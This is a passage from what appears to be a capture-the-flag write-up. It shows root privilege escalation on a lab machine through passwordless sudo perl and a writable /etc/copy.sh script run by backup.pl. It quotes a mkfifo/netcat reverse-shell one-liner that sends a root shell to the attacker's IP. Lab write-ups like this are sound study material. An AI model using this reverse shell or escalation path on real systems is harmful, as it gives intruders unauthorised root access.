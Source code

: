 So, I have an access to the server through terminal now. What next? Let's check what binaries can be executed using SUDO.

![I can execute perl scripts as admin without password. Noice.](images/image-39.png)

Okay, so according to the all info gathered, I know that:
1. I can execute perl script as an admin with no password needed,
2. backup.pl is executing /etc/copy.sh file, which also has root privileges,
3. I can read and write the /etc/copy.sh file, so, all I need to do is to replace IP with mine and start listening to the port given in this file.

So the content of the /etc/copy.sh file should be as the following:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [my IP] 5554 >/tmp/f

![alt text](images/image-40.png)

Then, I should start listening to port 5554:

![alt text](images/image-41.png)

Since everything is ready, I should execute the backup.pl script now as admin and have the reverse shell:

![Here it is!](images/image-42.png)

But am I really root now? Let's check it.

![YES!](images/image-43.png)

That's it. Now I will just check the root directory and most probably find the root flag there.

